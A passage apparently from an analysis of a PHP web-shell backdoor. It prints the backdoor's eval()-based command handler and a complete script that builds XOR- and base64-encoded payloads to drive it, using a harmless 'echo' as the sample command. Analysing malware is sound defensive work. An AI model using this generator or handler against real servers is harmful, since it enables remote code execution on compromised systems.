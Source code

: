 ```php
    if ($payload['a'] == 'i'){
        $info = Array(
	    'pv' => @phpversion(),
	    'sv' => '1.0-1',
	);
        echo @serialize($info);
    // if $payload['a'] == 'e', then evaluate code in $payload['d']
    } elseif ($payload['a'] == 'e'){
        eval($payload['d']);
    }
    exit();
}

```

So, to be able to generate a valid payload, something like this would
do:

```php
<?php
function  repXOR($text, $cipherKey){
	$xorStr = "";
	for ($x = 0; $x < strlen($text);){
		for ($i = 0; $i < strlen($cipherKey) && $x < strlen($text); $i++, $x++){
            $xorStr .= chr(ord($text[$x]) ^ ord($cipherKey[$i]));
        }
    }
    return $xorStr;
}

$payload = [
    // ID is required
    'ak' => 'd4a8745e-2599-49bc-b7e3-2b194ca49aef',
    // show info
//    'a' => 'i',
    // or execute code
    'a' => 'e',
    'd' => "echo \"Hi\";"
];
// set key name
$payloadKeyName = "payload";
// set ID
$payloadID = "d4a8745e-2599-49bc-b7e3-2b194ca49aef";

// 1. Serialize it
$payload = serialize($payload);
// 2. XOR with key name
$payload = repXOR($payload, $payloadKeyName);
// 3. XOR with ID
$payload = repXOR($payload, $payloadID);
// 4. base64 encode
$finishedPayload = base64_encode($payload);

```
